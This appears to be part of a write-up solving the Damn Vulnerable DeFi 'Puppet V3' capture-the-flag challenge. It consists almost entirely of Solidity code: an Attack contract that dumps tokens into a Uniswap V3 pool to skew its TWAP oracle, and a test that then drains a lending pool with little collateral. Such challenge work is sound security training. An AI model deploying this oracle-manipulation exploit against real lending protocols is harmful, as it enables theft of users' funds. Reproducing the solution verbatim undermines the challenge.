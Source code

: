 ```solidity
    constructor(PuppetV3Pool _pool, DamnValuableToken _token, IUniswapV3Pool _uniswap, WETH _weth, address _recovery) {
        token = _token;
        uniswap = _uniswap;
        pool = _pool;
        recovery = _recovery;
        weth = _weth;
    }

    function attack() public payable {
        (uint160 sqrtPriceX96, int24 tick, uint16 observationIndex, uint16 observationCardinality, uint16 observationCardinalityNext, uint8 feeProtocol, bool unlocked) = uniswap.slot0();
        uint160 sqrtPriceLimitX96 = TickMath.MIN_SQRT_RATIO + 1;
        require(sqrtPriceLimitX96 < sqrtPriceX96 && sqrtPriceLimitX96 > TickMath.MIN_SQRT_RATIO, 'KEK');
        token.approve(address(uniswap), PLAYER_INITIAL_TOKEN_BALANCE);
        uniswap.swap(
            address(this),
            true,
            int256(PLAYER_INITIAL_TOKEN_BALANCE),
            sqrtPriceLimitX96,
            ""
        );
    }

    function uniswapV3SwapCallback(
        int256 amount0Delta,
        int256 amount1Delta,
        bytes calldata data
    ) external override {
        if (amount0Delta > 0) token.transfer(address(uniswap), uint256(amount0Delta));
    }

    function getETH() public {
        weth.transfer(msg.sender, weth.balanceOf(address(this)));
    }
}
```

```solidity
function test_puppetV3() public checkSolvedByPlayer {
    IUniswapV3Pool uniswapPool = IUniswapV3Pool(uniswapFactory.getPool(address(weth), address(token), FEE));
    Attack attack = new Attack(lendingPool, token, uniswapPool, weth, recovery);
    token.transfer(address(attack), PLAYER_INITIAL_TOKEN_BALANCE);
    attack.attack();
    attack.getETH();
    skip(110 seconds);
    weth.approve(address(lendingPool), weth.balanceOf(player));
    lendingPool.borrow(LENDING_POOL_INITIAL_TOKEN_BALANCE);
    token.transfer(recovery, LENDING_POOL_INITIAL_TOKEN_BALANCE);
}
```
</details>

---